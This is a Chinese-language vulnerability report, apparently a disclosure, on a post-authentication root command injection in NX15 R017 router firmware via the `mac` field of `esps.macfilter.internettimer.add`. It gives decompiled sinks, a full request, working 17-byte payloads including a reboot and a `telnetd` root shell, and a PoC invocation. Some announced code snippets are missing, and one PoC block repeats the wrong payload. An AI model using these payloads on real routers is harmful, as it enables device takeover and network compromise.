








# NX15 R017 `esps.macfilter.internettimer.add -> timerange` 后置独立 root RCE

## 1. 结论

在 NX15 R017 上，`/api/esps` 的：

- `object = esps.macfilter.internettimer`
- `method = add`

存在一条**新的、独立的、存储型/条件触发型后认证 root RCE**。

- **接口**：`POST /api/esps`
- **对象**：`esps.macfilter.internettimer`
- **方法**：`add`
- **注入点**：`mac`
- **触发器**：`/etc/init.d/timerange restart`、`timerange` 启动/重载、时间同步后 `timerange` 继续执行配置读取
- **权限**：后认证（管理员会话）
- **结果**：以 **root** 权限执行攻击者控制的 shell 片段
- **验证设备**：`192.168.8.1`，NX15 firmware `R017`
- **结论等级**：**Confirmed / Exploited**

这条链的核心不是传统“长字符串任意命令”，而是：

1. `esps_macfilter` 的 `internettimer.add` 在 `mac` 长度为 **17** 时，直接把字符串原样写入 `internet_timerange.*.mac`；
2. `timerange` 读取 `internet_timerange` 时，把 `mac` 当作 shell input 拼进：
   - `snprintf(v36, 256, "echo '%s sh %s%s %s timerange' >> %s", &v37[13], (const char *)&v38[21], v35, v2, "/etc/crontabs/root");`
   - `sh %s%s`
3. 于是攻击者可用 **17 字节 shell payload** 完成 root 命令执行。

本轮实机已确认 payload：

- `;id>/tmp/it17;#aa`

可在 root 上下文中执行，并生成：

- `/tmp/it17`
- 内容：`uid=0(root) gid=0(root)`

---

## 2. 根因分析

这条链分为两段：

1. **写入段**：`esps.macfilter.internettimer.add`
2. **执行段**：`timerange`

### 2.1 `esps.macfilter.internettimer.add` 对 `mac` 的 17 字符分支缺少语义校验

目标二进制：

- `/usr/bin/esps_macfilter`

- `sub_401DEC`（`internettimer.add`）





落入配置并重启 `timerange` 的真实反编译片段如下：




### 2.2 `internet_timerange` 把 `mac` 明确定义为 shell_input

配置文件：

- `/etc/config/internet_timerange`

关键内容：

```uci
config config 'mainconfig'
    option name 'internettimer'
    option priority 'on'
    option on_sh '/sbin/internet_allow.sh'
    option off_sh '/sbin/internet_forbid.sh'
    option active_after_reboot 'true'
    option sh_input_count '1'

config shell_input 'input_1'
    option input 'mac'
```

这说明：

- `timerange` 在处理 `internet_timerange` 时，
- 会把每条规则的 `mac` 字段作为 shell 参数输入拼接进命令模板。

### 2.3 `timerange` 中存在真实 shell sink

目标二进制：

- `/usr/bin/timerange`



关键函数：

- `TIMERANGE_Write_Rule_To_Crontab`
- `TIMERANGE_Effective_Immediately`

已确认的真实反编译 sink 代码摘录：





并且运行时日志已记录出拼接结果，例如：

- `sh /sbin/internet_allow.sh ;id>/tmp/it17;#aa`

这证明 `mac` 并不是只当“数据”使用，而是直接进入了 shell 命令字符串。

---

## 3. 关键静态证据

### 3.1 `internettimer.add` 的长度分支

`esps_macfilter` / `sub_401DEC` 的真实反编译代码摘录：


落入配置并重启 `timerange` 的真实反编译片段如下：


#### `sub_401DEC` 参数流向补充

该代码片段中的关键传参关系如下：

```text
/api/esps param.mac
  -> a5 blobmsg 参数区
  -> blobmsg_parse(&g_astInternetTimerange_Add_Policy, 5, &v93, a5 + 4, v13)
  -> v93，也就是 policy[0] 的 mac 字段
  -> v40 = sub_401658(v93)
  -> v39 = strlen(v40)
  -> strlen == 17 时 strncpy(&v103[2], v40, 31)
  -> cfg_SetString("internet_timerange", v102, "mac", &v103[2])
```

其中 `&v103[2]` 是内部规则缓存中的 `mac` 字段缓冲区；`v40` 是从请求字段 `param.mac` 取出的字符串。`strncpy(&v103[2], v40, 31)` 的第 1 个参数是目的缓冲区，第 2 个参数是攻击者可控源字符串，第 3 个参数是复制上限。因为该分支只要求 `strlen(v40) == 17`，所以 17 字节 payload 会完整写入 `internet_timerange.*.mac`。

这一步构成了“**17 字节任意字符串入配置**”的关键入口。

### 3.2 `internet_timerange` 把 `mac` 暴露给 shell_input

`etc/config/internet_timerange`：

- `sh_input_count='1'`
- `input_1.input='mac'`

### 3.3 `timerange` 的 cron 写入 sink

`TIMERANGE_Write_Rule_To_Crontab`：

```c
snprintf( /*0x402934*/
  v36,
  256,
  "echo '%s sh %s%s %s timerange' >> %s",
  &v37[13],
  (const char *)&v38[21],
  v35,
  v2,
  "/etc/crontabs/root");
system(v36); /*0x40260c*/
```

### 3.4 `timerange` 的即时执行 sink

`TIMERANGE_Effective_Immediately`：

```c
snprintf(v54, 256, "sh %s%s", v26, v22); /*0x403b78*/
system(v54); /*0x403b20*/
```

### 3.5 fresh reset 场景下的时间门槛

`timerange main()` 会先调用：

- `TIMERANGE_Wait_System_Get_time()`

而 `TIMERANGE_Is_System_Get_time()` 的判断本质上是：

- 当前年份 **不是 1970** 才继续

因此，在设备刚恢复出厂、NTP 尚未同步、系统时间仍为 `1970` 时：

- `timerange` 会先卡住等待时间有效；
- 这会造成“配置已写入，但暂未执行”的现象；
- 一旦时间同步或被手工校正，后续 `restart` / 继续执行时就会命中 sink。

---

## 4. 动态验证

### 4.1 初始现象：规则可写入，但 fresh reset 后不立刻触发

第一次探测时，`internettimer.add` 已经成功：

- 返回 `code = 0`
- `internet_timerange.internettimer_1.mac` 成功写入恶意值

但未见 marker。

随后通过 root 观测发现：

- 路由器系统时间仍是 `Thu Jan 1 00:00:00 1970`
- 这与 `timerange` 的 `Wait_System_Get_time()` 静态结论完全一致

因此该次“不触发”不是链路错误，而是**时间条件未满足**。

### 4.2 校正时间后，链路立即打通

实验 payload：

```text
;id>/tmp/it17;#aa
```

长度：

- 恰好 **17** 字节

发送请求：

```json
[
  {
    "id": 1,
    "object": "esps.macfilter.internettimer",
    "method": "add",
    "param": {
      "mac": ";id>/tmp/it17;#aa",
      "status": "enable",
      "action": "on",
      "timeRange": "00:00-23:59",
      "week": [1,2,3,4,5,6,7]
    }
  }
]
```

返回：

```json
[{"id":1,"result":{"message":"Success","data":{"id":1},"code":0}}]
```

### 4.3 关键运行证据

已确认：

1. marker 文件存在：

```text
-rw-r--r--    1 root root 24 Jan  1 00:00 /tmp/it17
```

2. marker 内容：

```text
uid=0(root) gid=0(root)
```

3. 恶意配置项成功落地：

```text
internet_timerange.internettimer_1.mac=';id>/tmp/it17;#aa'
```

4. `timerange.log` 明确记录了命令模板中的注入结果：

```text
cmd: echo '<cron fields> sh /sbin/internet_allow.sh ;id>/tmp/it17;#aa <section> timerange' >> /etc/crontabs/root
cmd: sh /sbin/internet_allow.sh ;id>/tmp/it17;#aa
```

这四点一起构成完整闭环：

- HTTP 写入成功
- 恶意值入配置
- `timerange` shell sink 实际组装出了带注入 payload 的命令
- 命令以 **root** 执行并产出 marker

---

## 5. 利用约束与利用面说明

### 5.1 权限要求

- 需要**管理员会话**
- 即：这是 **post-auth** 利用链

### 5.2 payload 长度要求

当前最稳定、最关键的约束是：

- `mac` 走危险分支时，长度必须正好为 **17**

因此它不是“无限长任意命令注入”，而是：

- **17 字节 shell 片段注入**
- 但这已经足以完成 root 命令执行证明

例如：

- `;id>/tmp/it17;#aa`
- `;reboot;#aaaaaaaa`
- `;telnetd -lsh;#aa`
- 以及调用短路径脚本/短命令的其他变体

### 5.3 时间条件

若设备处于以下状态：

- 刚恢复出厂
- WAN/NTP 尚未同步
- 系统时间仍为 `1970`

```
查看当前系统时间
date
修改当前系统时间
date -s '2026-07-06 12:00:00'
```


则 `timerange` 会先等待，不会立刻执行。

一旦满足任一条件：

- NTP 自动同步成功
- 管理员手动校正系统时间
- 在时间有效后重新 `restart` `timerange`

这条链就会触发。

因此更准确的定性是：

- **后认证、存储型、条件触发型 root RCE**

但在正常联网路由器运行态下，这个条件通常是可满足的。

---

## 6. 影响评估

攻击者在取得管理员会话后，可通过单次 `internettimer.add`：

- 将恶意 17 字节 shell 片段写入 `internet_timerange`
- 在 `timerange` 重启/重载/时间有效后，以 **root** 身份执行该片段
- 同时把恶意片段写入 cron 规则模板，形成额外的持久触发面

影响包括：

- root 级命令执行
- 定时/持久执行植入
- 网络策略面劫持（因为该链本身挂在 internet timer 逻辑上）
- 进一步扩大持久化执行面

---

## 7. POC

- `poc/postauth_esps_macfilter_internettimer_timerange_rce.py`

```
python3 poc/postauth_esps_macfilter_internettimer_timerange_rce.py \
  --base http://192.168.8.1 \
  --username admin \
  --password 'admin123' \
  --payload ';id>/tmp/it17;#aa'
```



`;telnetd -lsh;#aa`已验证可以成功获取root shell

```
python3 poc/postauth_esps_macfilter_internettimer_timerange_rce.py \
  --base http://192.168.8.1 \
  --username admin \
  --password 'admin123' \
  --payload ';id>/tmp/it17;#aa'
```



## 8. 结论

这是一条已经确认的后认证、存储型 / 条件触发型 root RCE。其核心在于：

- `internettimer.add` 的 **17 字节原样写入分支**
- `timerange` 对 `mac` 的 **shell_input 命令拼接**

因此应计为一条新的独立 root RCE。
